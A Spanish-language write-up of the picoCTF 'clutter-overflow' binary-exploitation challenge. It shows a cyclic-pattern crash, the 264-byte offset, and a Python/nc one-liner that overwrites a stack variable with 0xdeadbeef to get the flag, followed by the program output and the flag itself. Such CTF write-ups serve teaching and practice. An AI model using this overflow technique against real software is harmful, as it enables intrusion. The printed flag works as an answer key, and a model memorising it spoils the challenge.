 
# clutter-overflow

## Descripcion
Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`
|CHALLENGE ENDPOINTS|
|---|
|Download chall.c|[chall.c](https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c)|
|Download chall|[chall](https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall)|

## Pistas

## Solucion
Mandamos a crear un caracter de 300 bits para desbordar al gets(), y se desborda: 
```bash()
My room is so cluttered...
What do you see?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaa
aauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
code == 0x6261616161616169
code != 0xdeadbeef :(
```
vemos que el numero exacto es 272, pero tambien tenemos que poner el 0xdeadbeef entonces termina siendo 264 con los 8 caracteres menos. 
convertimos 0xdeadbeef con un p32 y nos da \xef\xbe\xad\xde
entonces inyectamos todo y nos da la bandera. 

```bash
┌──(kali㉿kali)-[~]
└─$ (python3 -c 'import sys; sys.stdout.write("A" * 264)'; echo -e '\xef\xbe\xad\xde') | nc mars.picoctf.net 31890 
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

```

## Bandera

picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## Notas adicionales

| comando | descripcion |
| --- | --- |

## Referencias
